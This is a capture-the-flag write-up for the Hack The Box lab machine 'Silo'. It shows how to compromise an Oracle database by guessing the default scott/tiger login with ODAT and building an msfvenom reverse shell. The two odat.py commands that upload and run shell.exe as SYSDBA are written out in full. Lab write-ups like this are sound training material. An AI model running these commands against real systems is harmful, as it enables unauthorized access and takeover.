


# Silo

#### Machine Info


### Nmap


#### HTTP (Port 80)

Index Page:


Tried go buster but got nothing.

#### Oracle TNS listener (Port 1521)

##### Exploit on oracle database:

`ODAT`: An open source tool to test the Oracle Databases remotely.</br>
Github: https://github.com/quentinhardy/odat

First get `sid` with `ODAT`.:


By using the `sid` we get from preivous step, we can try to guess credentials:


We got `scott/tiger`!!. Let's try if this is valid:


We can login to oracle database server which means credential is correct.


##### Exploit

First, generate windows reverse shell code using `msfvenom`:


By using `odat.py`, we can upload and execute files with system privilege. We have generated `shell.exe` and just upload to the server by using `utlfile`. Then execute by using `externaltable`.

```
# Upload shell.exe to the server
python3 odat.py utlfile -s 10.10.10.82 -U scott -P tiger -d XE --sysdba --putFile C:\\WINDOWS\\temp shell.exe ~/htb/machines/silo/shell.exe
```


```
# Execute shell.exe from the server
python3 odat.py externaltable -s 10.10.10.82 -U scott -P tiger -d XE --sysdba --exec C:\\WINDOWS\\temp shell.exe
```


And from `nc` listener on attacking side:


And you can get `root.txt` :)
